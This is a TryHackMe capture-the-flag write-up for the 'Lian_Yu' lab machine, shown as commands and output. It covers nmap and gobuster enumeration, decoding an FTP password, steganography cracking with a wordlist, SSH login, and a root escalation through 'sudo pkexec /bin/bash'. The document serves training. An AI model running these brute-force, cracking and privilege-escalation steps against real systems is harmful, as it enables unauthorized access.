



# Lian_Yu

**Date:** 30, June, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/lianyu) to go to the TryHackMe room.


## Enumeration

### Nmap

```bash
nmap -sC -sV -p- 10.10.4.71 -oN nmap.out
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-30 11:51 IST
Nmap scan report for 10.10.4.71
Host is up (0.17s latency).
Not shown: 65530 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.2
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp    open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          40210/udp6  status
|   100024  1          42267/tcp   status
|   100024  1          47133/udp   status
|_  100024  1          54856/tcp6  status
42267/tcp open  status  1 (RPC #100024)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 445.65 seconds
```

### Gobuster

```bash
$ gobuster dir -u http://10.10.4.71 -w /usr/share/wordlists/dirb/big.txt -t 50 | tee gobuster.out
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.4.71
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/30 11:55:15 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 199]
/.htpasswd            (Status: 403) [Size: 199]
/island               (Status: 301) [Size: 233] [--> http://10.10.4.71/island/]
/server-status        (Status: 403) [Size: 199]                                
                                                                               
===============================================================
2021/06/30 11:56:23 Finished
===============================================================
```

### Home Page



### Island Folder




### FTP
- `vigilante` is a valid username for FTP.
- But we don't have the password!!

---

## Digging Deeper

### What is the Web Directory you found?
- **Answer:** 2100
- **Steps to Reproduce:** 
    - Perform a gobuster dir search inside the `/island/` folder

```bash
gobuster dir -u http://10.10.4.71/island/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 | tee gobuster-sec.out
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.4.71/island/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/30 12:23:21 Starting gobuster in directory enumeration mode
===============================================================
/2100                 (Status: 301) [Size: 238] [--> http://10.10.4.71/island/2100/]
```

### File Extension Clue

- The Youtube video seems was not found!!



- But we have a clue about the extension of the file `.ticket`.

### What is the file name you found?
- **Answer:** green_arrow.ticket
- **Steps to Reproduce:** 
    - Perform a gobuster dir search inside the `/island/2100/` folder.
    - Use the extension `ticket`

```bash
$ gobuster dir -u http://10.10.4.71/island/2100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x ticket -t 50 | tee gobuster-third.out
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.4.71/island/2100
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              ticket
[+] Timeout:                 10s
===============================================================
2021/06/30 12:37:55 Starting gobuster in directory enumeration mode
===============================================================
/green_arrow.ticket   (Status: 200) [Size: 71]
```

---

## FTP Access

### What is the FTP Password?

- Visit `island/2100/green_arrow.ticket`.
- You'll find the base58 encoded version of the FTP password

```bash
$ curl http://10.10.4.71/island/2100/green_arrow.ticket 

This is just a token to get into Queen's Gambit(Ship)

<REDACTED>

$ echo <REDACTED> | base58 -d
<REDACTED>
```


### Download the files

- Download all the files in the ftp folder:

```bash
$ ftp 10.10.4.71
Connected to 10.10.4.71.
220 (vsFTPd 3.0.2)
Name (10.10.4.71:root): vigilante
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     1001         4096 May 05  2020 .
drwxr-xr-x    4 0        0            4096 May 01  2020 ..
-rw-------    1 1001     1001           44 May 01  2020 .bash_history
-rw-r--r--    1 1001     1001          220 May 01  2020 .bash_logout
-rw-r--r--    1 1001     1001         3515 May 01  2020 .bashrc
-rw-r--r--    1 0        0            2483 May 01  2020 .other_user
-rw-r--r--    1 1001     1001          675 May 01  2020 .profile
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.
```

### Other users

- We can also check the other users (can be used later) by escaping out of that directory:

```bash
ftp> cd ..
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwx------    2 1000     1000         4096 May 01  2020 slade
drwxr-xr-x    2 1001     1001         4096 May 05  2020 vigilante
226 Directory send OK.
```

- I couldn't find anyother information with FTP!

---

## Steganography

- In the attacker machine, use `stegcracker` and `steghide` over the image `aa.jpg`:

```bash
$ steghide  extract -sf  aa.jpg 
Enter passphrase: 
steghide: could not extract any data with that passphrase!

$ stegcracker aa.jpg 
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'aa.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: <REDACTED>
Tried 132 passwords
Your file has been written to: aa.jpg.out
<REDACTED>

$ file aa.jpg.out 
aa.jpg.out: Zip archive data, at least v2.0 to extract
$ unzip aa.jpg.out
Archive:  aa.jpg.out
  inflating: passwd.txt              
  inflating: shado                   
```

- You can use `zsteg` to analyze other `png` images.

---

## Initial Access

### What is the file name with SSH password?
- **Answer:** shado
- **Steps to Reproduce:** 

```bash
$ cat passwd.txt 
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.

$ cat shado 
REDACTED
```

### SSH Access - slade
- The password didn't work the `vigilante` user.
- By checking it for the other user `slade`:

```bash
ssh slade@10.10.4.71
slade@10.10.4.71's password: 
              Way To SSH...
          Loading.........Done.. 
        Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


  ██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
  ██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
  ██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
  ██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
  ███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
  ╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

slade@LianYu:~$
```

### user.txt

```bash
slade@LianYu:~$ ls
user.txt
slade@LianYu:~$ cat user.txt 
THM{REDACTED}
        --Felicity Smoak
```

---

## Privilege Escalation

- Check slade user's sudo permission.

```bash
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

- He can run `pkexec`. So, we can escalate privilege:

```bash
slade@LianYu:~$ sudo pkexec /bin/bash
root@LianYu:~# whoami
root
```

### root.txt

- Find the root flag inside `root` directory:

```
root@LianYu:~# cd /root
root@LianYu:~# ls
root.txt
root@LianYu:~# cat root.txt 
                          Mission accomplished


You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 


THM{REDACTED}
                                                                              --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```

- It was a fun and interesting machine to root!!

---